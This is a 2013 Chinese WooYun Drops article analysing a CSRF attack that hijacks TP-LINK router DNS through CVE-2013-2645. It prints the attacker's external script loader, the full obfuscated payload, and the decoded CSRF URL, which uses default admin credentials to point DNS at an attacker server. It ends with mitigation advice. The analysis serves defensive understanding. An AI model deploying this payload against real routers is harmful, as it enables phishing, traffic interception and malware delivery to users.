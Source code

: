 # 针对 TP-LINK 的 CSRF 攻击来劫持 DNS 案例

2013/10/31 16:24 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

路由被 CSRF 攻击，修改 DNS 的话题最近一直比较活跃，但是国内貌似没有一个技术文章详细的分析此漏洞，漏洞成因比较简单，本篇来科普一下。

本篇讲得是一个利用 CVE-2013-2645 的漏洞，来修改 TP-LINK 的 DNS 案例，针对其他路由的攻击大同小异。

## 0x01 EXP 分析

* * *

攻击者会在自己的网站或者已经受他控制的网站上加入一段 javascript 代码：

```
document.write("<script type=\"text/javascript\" src=\"http://www.xxxxxx.com/js/ma.js\">"); 
```

javascript 代码动态的从外站加载一个 ma.js 的文件，看一下 ma.js 文件里的内容：

```
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k)p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k);return p;}('T w$=["\\E\\6\\5\\m\\o\\3\\q\\5\\m\\8\\3\\7\\"\\5\\3\\G\\5\\j\\r\\6\\6\\"\\y\\B\\d\\e\\8\\v\\4\\5\\q\\u\\4\\o\\H\\n\\5\\5\\8\\A\\j\\j\\a\\i\\e\\d\\f\\A\\a\\i\\e\\d\\f\\B\\2\\k\\h\\1\\2\\g\\9\\1\\2\\1\\2\\j\\u\\6\\3\\4\\z\\8\\e\\j\\s\\a\\f\\F\\n\\r\\8\\C\\3\\4\\l\\3\\4\\z\\8\\e\\1\\n\\5\\e\\I\\i\\n\\r\\8\\6\\3\\4\\l\\3\\4\\7\\2\\c\\d\\8\\2\\7\\2\\k\\h\\1\\2\\g\\9\\1\\2\\1\\2\\b\\b\\c\\d\\8\\h\\7\\2\\k\\h\\1\\2\\g\\9\\1\\2\\1\\2\\k\\k\\c\\s\\3\\a\\6\\3\\7\\2\\h\\b\\c\\Q\\a\\5\\3\\x\\a\\m\\7\\b\\1\\b\\1\\b\\1\\b\\c\\i\\v\\e\\a\\d\\f\\7\\c\\i\\f\\6\\6\\3\\4\\l\\3\\4\\7\\2\\b\\g\\1\\2\\9\\P\\1\\D\\g\\1\\9\\R\\c\\i\\f\\6\\6\\3\\4\\l\\3\\4\\h\\7\\9\\1\\9\\1\\9\\1\\9\\c\\C\\a\\l\\3\\7\\p\\t\\2\\p\\S\\D\\O\\p\\t\\K\\p\\J\\g\\L\\N\\E\\j\\6\\5\\m\\o\\3\\y\\q"];M"\\x\\4\\d\\5\\3\\o\\f";',56,56,'|x2e|x31|x65|x72|x74|x73|x3d|x70|x38|x61|x30|x26|x69|x6d|x6e|x36|x32|x64|x2f|x39|x76|x79|x68|x6c|x25|x20|x63|x4c|x42|x75|x6f|_|x77|x3e|x52|x3a|x40|x53|x33|x3c|x44|x78|x28|x3f|x45|x34|x29|document|x3b|x2b|x37|x67|x35|x41|var'.split('|'),0,{})) 
```

嗯，是一段混淆的 js 代码，eval 执行一段混淆代码，把 eval 换成 console.log 在浏览器的控制台输出一下：

```
var _$=["\x3c\x73\x74\x79\x6c\x65\x20\x74\x79\x70\x65\x3d\"\x74\x65\x78\x74\x2f\x63\x73\x73\"\x3e\x40\x69\x6d\x70\x6f\x72\x74\x20\x75\x72\x6c\x28\x68\x74\x74\x70\x3a\x2f\x2f\x61\x64\x6d\x69\x6e\x3a\x61\x64\x6d\x69\x6e\x40\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x2f\x75\x73\x65\x72\x52\x70\x6d\x2f\x4c\x61\x6e\x44\x68\x63\x70\x53\x65\x72\x76\x65\x72\x52\x70\x6d\x2e\x68\x74\x6d\x3f\x64\x68\x63\x70\x73\x65\x72\x76\x65\x72\x3d\x31\x26\x69\x70\x31\x3d\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x30\x30\x26\x69\x70\x32\x3d\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x2e\x31\x39\x39\x26\x4c\x65\x61\x73\x65\x3d\x31\x32\x30\x26\x67\x61\x74\x65\x77\x61\x79\x3d\x30\x2e\x30\x2e\x30\x2e\x30\x26\x64\x6f\x6d\x61\x69\x6e\x3d\x26\x64\x6e\x73\x73\x65\x72\x76\x65\x72\x3d\x31\x30\x36\x2e\x31\x38\x37\x2e\x33\x36\x2e\x38\x35\x26\x64\x6e\x73\x73\x65\x72\x76\x65\x72\x32\x3d\x38\x2e\x38\x2e\x38\x2e\x38\x26\x53\x61\x76\x65\x3d\x25\x42\x31\x25\x41\x33\x2b\x25\x42\x34\x25\x45\x36\x29\x3b\x3c\x2f\x73\x74\x79\x6c\x65\x3e\x20"];document"\x77\x72\x69\x74\x65\x6c\x6e"; 
```

仍然是混淆的代码，但是比一开始的容易看很多，只是把一些字符串给转成了 16 进制方式表示而已。

`\x77\x72\x69\x74\x65\x6c\x6e`这段 16 进制表示的是字符串`writeln`。

javascript 中`document["writeln"]`与 document.writeln 一样，这是 javascript 两种访问对象属性的写法。

代码最终等同于：

```
document.writeln('<style type="text/css">@import url(http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=106.187.36.85&dnsserver2=8.8.8.8&Save=%B1%A3+%B4%E6);</style>') 
```

现在就很明了了，写了一个 style 标签 import 一个 css 调用，让浏览器去访问这个地址：

```
http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=106.187.36.85&dnsserver2=8.8.8.8&Save=%B1%A3+%B4%E6 
```

很明显的一个 CSRF 攻击，攻击者的主要目的是把 dns 服务器换成 106.187.36.85，为了使攻击成功，还加入了一些必要的提交参数，如 ip 范围是从 192.168.1.100-199 等。

为了确保所有访问都没有问题，还加入了 google 的 dns，当 106.187.36.85 有不能解析的域名时，去 8.8.8.8 获取地址。

针对 CSRF 的原理危害以及修复方式，drops 之前有文章讲过可以参考一下：

[CSRF 简单介绍及利用方法](http://drops.wooyun.org/papers/155)

应当注意的是这个利用是根据路由的默认密码进入后台做一系列的操作的，如果路由器已经修改的默认用户名密码，可以避免此危害，但是如果浏览器已经在路由后台，或者 cookie 还未失效，仍然能够攻击成功。

## 0x02 修改 DNS 的危害

* * *

攻击者为什么要修改 DNS 呢，当他获取 DNS 的权限后，他能做什么呢：

```
1、用户打开一个正常网站时，重定向到一个钓鱼网站。
2、给正常网站加入挂马代码，控制用户 PC。
3、软件升级时候不用签名的话，可控制软件的升级。
4、不使用证书的话可以截取邮箱密码，网站上的密码等等。
5、更改网站上的广告，换成自己的。（我觉得这是天朝黑客获取利润的方式） 
```

## 0x03 如何避免这种攻击

* * *

```
1、首先应该先检查一下自己的 dns 是否已经被改变了。
2、升级路由的固件，有部分型号已经修复。
3、更改路由器的默认密码。
4、登陆路由后，退出要点击“注销”。 
```

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：

![](img/img5_u108_png.jpg)

### 相关日志

*   [CVE 2015-0235: GNU glibc gethostbyname 缓冲区溢出漏洞](http://drops.wooyun.org/papers/4780)
*   [Exploiting “BadIRET” vulnerability (CVE-2014-9322, Linux kernel privilege escalation)](http://drops.wooyun.org/papers/4860)
*   [DiscuzX 系列命令执行分析公开（三连弹）](http://drops.wooyun.org/papers/4611)
*   [由 Ghost 漏洞引发的“血案”](http://drops.wooyun.org/papers/4823)
*   [MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造](http://drops.wooyun.org/papers/4621)
*   [Dionaea 蜜罐指南](http://drops.wooyun.org/papers/4584)